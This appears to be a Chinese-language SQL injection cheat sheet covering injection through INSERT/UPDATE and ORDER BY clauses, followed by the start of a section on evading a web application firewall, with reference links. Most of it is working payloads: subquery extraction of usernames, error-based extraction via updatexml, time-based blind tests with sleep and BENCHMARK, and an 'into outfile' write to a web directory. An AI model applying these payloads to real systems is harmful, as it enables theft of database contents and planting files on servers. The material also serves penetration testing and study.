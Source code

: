 ## insert update注入
- 插入的数据中都可以使用子查询查询他表内容，但是如果只有一个表的话可以使用这种方法：
```SQL
update users set username = 'j7ur8'| conv(hex(substr((select username from (select * from users where id=1) as x limit 0,1 ) ,1 + (1-1) * 8, 8 * 1)),16, 10) where id=1;
```
但是高版本中存在限制。strict_trans_tables。只要把j7ur8改成0就可以了
- 报错：
```sql
UPDATE `mytable` join (select updatexml(1,concat(0x23,user()),1))b join `mytable` `b` SET `username`='admin' WHERE sex=1;
ERROR 1105 (HY000): XPATH syntax error: '#root@localhost'
```

## order by注入

**语句**
```SQL
	select * from users order by 1 and If(ascii(substr(database(),1,1))=116,0,sleep(1));
	(SELECT IF(SUBSTRING(current,1,1)=CHAR(115), BENCHMARK(50000000,md5('1')),null) FROM (select database() as current) as tb1)
	rand(ascii(left(database(),1))=116)
	1 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1)\
	1 into outfile "c:\\wamp\\www\\sqllib\\test1.txt"
```

# 过狗

参考几篇过狗的文章，总结了下语句。

**文章**
- https://xz.aliyun.com/t/1174
- https://xz.aliyun.com/t/2069
- http://drops.xmd5.com/static/drops/tips-7883.html
- https://mp.weixin.qq.com/s/S318-e4-eskfRG38HZk_Qw
- https://notwhy.github.io/2018/06/sql-injection-fuck-waf/

**基础知识**
![](/images/19-2-16_SQL_过狗1.webp)

